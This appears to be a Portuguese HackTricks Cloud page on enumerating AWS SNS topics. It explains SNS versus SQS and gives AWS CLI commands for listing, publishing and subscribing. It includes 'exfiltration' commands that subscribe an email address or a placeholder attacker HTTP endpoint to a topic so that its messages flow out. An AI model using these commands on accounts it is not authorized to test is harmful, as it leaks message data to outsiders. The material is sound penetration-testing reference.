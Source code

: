 # AWS - Enumeração do SNS

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no Github.

</details>

## SNS

O Amazon Simple Notification Service (Amazon SNS) é um serviço de mensagens **totalmente gerenciado** para comunicação **de aplicação para aplicação** (A2A) e **de aplicação para pessoa** (A2P).

A funcionalidade de publicação/assinatura A2A fornece **tópicos** para mensagens de **muitos para muitos** de alta taxa de transferência e baseadas em push entre sistemas distribuídos, microsserviços e aplicativos sem servidor orientados a eventos. Usando tópicos do Amazon SNS, seus sistemas de publicação podem distribuir mensagens para um **grande número de sistemas de assinantes**.

### **Diferença com SQS**

**SQS** é um serviço baseado em **fila** que permite comunicação ponto a ponto, garantindo que as mensagens sejam processadas por um **único consumidor**. Ele oferece **entrega pelo menos uma vez**, suporta filas padrão e FIFO e permite a retenção de mensagens para tentativas de reenvio e processamento atrasado.\
Por outro lado, **SNS** é um serviço baseado em **publicação/assinatura**, permitindo comunicação **de um para muitos** por meio da transmissão de mensagens para **múltiplos assinantes** simultaneamente. Ele suporta **vários pontos de extremidade de assinatura, como e-mail, SMS, funções Lambda e HTTP/HTTPS**, e fornece mecanismos de filtragem para entrega de mensagens direcionadas.\
Embora ambos os serviços permitam o desacoplamento entre componentes em sistemas distribuídos, o SQS se concentra na comunicação em fila, e o SNS enfatiza padrões de comunicação orientados a eventos e fan-out.

### **Enumeração**

```bash
# Obter tópicos e assinaturas
aws sns list-topics
aws sns list-subscriptions
aws sns list-subscriptions-by-topic --topic-arn <arn>

# Verificar privescs e pós-exploração
aws sns publish \
    --topic-arn "arn:aws:sns:us-west-2:123456789012:my-topic" \
    --message file://message.txt

# Exfiltrar por e-mail
## Você receberá um e-mail para confirmar a assinatura
aws sns subscribe \
    --topic-arn arn:aws:sns:us-west-2:123456789012:my-topic \
    --protocol email \
    --notification-endpoint my-email@example.com

# Exfiltrar por servidor web
## Você receberá uma solicitação inicial com uma URL no campo "SubscribeURL"
## que você precisa acessar para confirmar a assinatura
aws sns subscribe \
    --protocol http \
    --notification-endpoint http://<atacante>/ \
    --topic-arn <arn>
```

### Escalada de privilégios

{% content-ref url="../aws-privilege-escalation/aws-sns-privesc.md" %}
[aws-sns-privesc.md](../aws-privilege-escalation/aws-sns-privesc.md)
{% endcontent-ref %}

### Pós-exploração

{% content-ref url="../aws-post-exploitation/aws-sns-post-exploitation.md" %}
[aws-sns-post-exploitation.md](../aws-post-exploitation/aws-sns-post-exploitation.md)
{% endcontent-ref %}

<details>

<summary><strong>Apoie o HackTricks e obtenha benefícios!</strong></summary>

* Se você deseja ver sua **empresa anunciada no HackTricks** ou se deseja acessar a **última versão do PEASS ou baixar o HackTricks em PDF**, verifique os [**PLANOS DE ASSINATURA**](https://github.com/sponsors/carlospolop)!
* Obtenha o [**swag oficial do PEASS & HackTricks**](https://peass.creator-spring.com)
* Descubra [**The PEASS Family**](https://opensea.io/collection/the-peass-family), nossa coleção exclusiva de [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga-me** no **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm).

* **Compartilhe suas técnicas de hacking enviando PRs para os repositórios do** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) no Github.

</details>